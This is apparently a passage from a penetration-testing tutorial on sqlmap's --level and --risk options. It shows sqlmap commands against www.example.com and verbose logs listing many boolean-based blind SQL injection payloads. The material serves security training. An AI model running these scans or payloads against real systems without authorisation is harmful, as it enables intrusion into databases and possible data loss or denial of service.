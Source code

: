 * The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
* The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

The best way to check for differences between used boundaries and payloads for different values of `--level` and `--risk`, is the usage of `-v` option to set the verbosity level. In verbosity 3 or higher (e.g. `-v 3`), messages containing the used `[PAYLOAD]` will be displayed, as follows:

Attack Tuning

```shell-session
AIceBear@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

On the other hand, payloads used with the default `--level` value have a considerably smaller set of boundaries:

Attack Tuning

```shell-session
AIceBear@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

As for vectors, we can compare used payloads as follows:

Attack Tuning

```shell-session
AIceBear@htb[/htb]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```
